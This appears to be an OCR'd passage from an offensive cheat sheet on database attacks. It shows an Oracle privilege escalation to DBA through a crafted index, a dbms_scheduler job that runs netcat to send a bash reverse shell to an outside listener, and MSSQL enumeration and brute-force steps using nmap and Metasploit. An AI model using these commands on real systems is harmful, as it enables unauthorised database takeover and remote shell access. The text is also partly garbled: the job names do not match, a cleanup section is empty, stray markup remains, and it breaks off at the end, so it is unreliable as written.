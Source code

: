 **Oracle priv esc and obtain DBA access:**

Run netcat: `netcat -nvlp 443`code>

```
SQL> create index exploit_1337 on SYS.DUAL(SCOTT.GETDBA('BAR'));
```

**Run the exploit with a select query:**

```
SQL> Select * from session_privs; 
```

You should have a DBA user with creds user1 and pass1.

Verify you have DBA privileges by re-running the first command again.

**Remove the exploit using:**

**Get Oracle Reverse os-shell:**

```
begin
dbms_scheduler.create_job( job_name    => 'MEH1337',job_type    =>
    'EXECUTABLE',job_action => '/bin/nc',number_of_arguments => 4,start_date =>
    SYSTIMESTAMP,enabled    => FALSE,auto_drop => TRUE); 
dbms_scheduler.set_job_argument_value('rev_shell', 1, 'TARGET-IP');
dbms_scheduler.set_job_argument_value('rev_shell', 2, '443');
dbms_scheduler.set_job_argument_value('rev_shell', 3, '-e');
dbms_scheduler.set_job_argument_value('rev_shell', 4, '/bin/bash');
dbms_scheduler.enable('rev_shell'); 
end; 
```

#### MSSQL <a href="#mssql" id="mssql"></a>

Enumeration / Discovery:

Nmap:

```
nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156
```

Metasploit:

```
msf > use auxiliary/scanner/mssql/mssql_ping
```

**Use MS SQL Servers Browse For More**

Try using "Browse for More" via MS SQL Server Management Studio

**Bruteforce MSSQL Login**

```
msf > use auxiliary/admin/mssql/mssql_enum
```

**Metasploit MSSQL Shell**
